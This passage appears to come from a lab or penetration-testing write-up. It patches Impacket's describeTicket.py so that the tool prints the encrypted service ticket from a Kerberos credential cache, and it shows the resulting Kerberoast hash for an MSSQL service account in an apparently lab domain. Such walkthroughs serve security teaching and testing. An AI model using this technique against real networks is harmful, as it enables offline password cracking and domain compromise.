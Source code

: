 ```
[*] End Time                      : 29/06/2025 21:05:47 PM
[*] RenewTill                     : 30/06/2025 11:05:45 AM
[*] Flags                         : (0xe10000) renewable, initial, pre_authent, enc_pa_rep
[*] KeyType                       : aes256_cts_hmac_sha1_96
[*] Base64(key)                   : DzdIbp0+RHSR0Q7wSfFADo1n/UHLs7u94yMhqw4Rz8w=
[*] Decoding unencrypted data in credential[0]['ticket']:
[*]   Service Name                : krbtgt/ASIA.EARTH.LOCAL
[*]   Service Realm               : ASIA.EARTH.LOCAL
[*]   Encryption type             : aes256_cts_hmac_sha1_96 (etype 18)
[-] Could not find the correct encryption key! Ticket is encrypted with aes256_cts_hmac_sha1_96 (etype 18), but no keys/creds were supplied
```

However, the encrypted `ST` is not printed out. We can fix this by changing the following lines in `describeTicket.py`:

```python
# https://github.com/fortra/impacket/blob/master/examples/describeTicket.py#L312

except KeyError:
    if len(ekeys) > 0:
        logging.error('Could not find the correct encryption key! Ticket is encrypted with %s (etype %d), but only keytype(s) %s were calculated/supplied',
                        constants.EncryptionTypes(etype).name,
                        etype,
                        ', '.join([str(enctype) for enctype in ekeys.keys()]))
    else:
        logging.error('Could not find the correct encryption key! Ticket is encrypted with %s (etype %d), but no keys/creds were supplied',
                        constants.EncryptionTypes(etype).name,
                        etype)
    # return
    continue # <-- change this to `continue` instead of `return`
```

If we run `describeTicket.py` again, we can see the encrypted service ticket:

```
describeTicket.py /tmp/krb5cc_1000
Impacket v0.13.0.dev0+20250611.105641.0612d078 - Copyright Fortra, LLC and its affiliated companies 

[...snip...]
[*] RenewTill                     : 30/06/2025 11:05:45 AM
[*] Flags                         : (0xa10000) renewable, pre_authent, enc_pa_rep
[*] KeyType                       : rc4_hmac
[*] Base64(key)                   : LgL2ob4pA8oJ3aQePeVUow==
[*] Kerberoast hash               : $krb5tgs$23$*USER$ASIA.EARTH.LOCAL$MSSQLSvc/SQL01.asia.earth.local*$8200b8c15cc96a7fp[...snip....]434bbb9a446d5abc4b6713dd016a1fc0bc562c4920d954241fbc4d4665a89b420148937b0a208c762d126179884709b4b
[*] Decoding unencrypted data in credential[0]['ticket']:
[*]   Service Name                : MSSQLSvc/SQL01.asia.earth.local
[*]   Service Realm               : ASIA.EARTH.LOCAL
[*]   Encryption type             : rc4_hmac (etype 23)
[-] Could not find the correct encryption key! Ticket is encrypted with rc4_hmac (etype 23), but no keys/creds were supplied
```
